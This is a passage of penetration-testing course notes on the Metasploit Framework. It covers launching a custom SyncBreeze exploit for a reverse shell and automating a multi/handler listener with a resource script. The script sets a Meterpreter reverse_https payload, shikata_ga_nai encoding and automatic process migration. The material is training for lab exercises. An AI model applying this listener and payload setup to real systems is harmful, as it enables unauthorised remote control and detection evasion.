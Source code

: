   ![Picture](../22.%20The%20Metasploit%20Framework/Image/35.png)
- We notice that the search for syncbreeze now contains three results and that the second result is our custom exploit. Next we’ll choose a payload, set up the required parameters, and perform a vulnerability check.
  ![Picture](../22.%20The%20Metasploit%20Framework/Image/36.png)
- Finally, we launch our exploit to gain a reverse shell.
  ![Picture](../22.%20The%20Metasploit%20Framework/Image/37.png)

## Metasploit Automation

- While the Metasploit Framework automates quite a bit for us, we can further automate repetitive commands inside the framework itself.
- When we use a payload to create a standalone executable or a client-side attack vector like an HTML application, we select options like payload type, local host, and local port. The same options must then be set in the multi/handler module. To streamline this, we can take advantage of Metasploit resource scripts. We can use any number of Metasploit commands in a resource script.
- For example, using a standard editor, we will create a script in our home directory named setup.rc. In this script, we will set the payload to windows/meterpreter/reverse_https and configure the relevant LHOST and LPORT parameters. We also enable stage encoding using the x86/shikata_ga_nai encoder and configure the post/windows/manage/migrate module to be executed automatically using the AutoRunScript option. This will cause the spawned meterpreter to automatically launch a background notepad.exe process and migrate to it. Finally, the 
ExitOnSession parameter is set to “false” to ensure that the listener keeps accepting new connections and the module is executed with the -j and -z flags to stop us from automatically interacting with the session. The commands for this are as follows.
  ```bash
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_https
  set LHOST 10.11.0.4
  set LPORT 443
  set EnableStageEncoding true
  set StageEncoder x86/shikata_ga_nai
  set AutoRunScript post/windows/manage/migrate 
  ```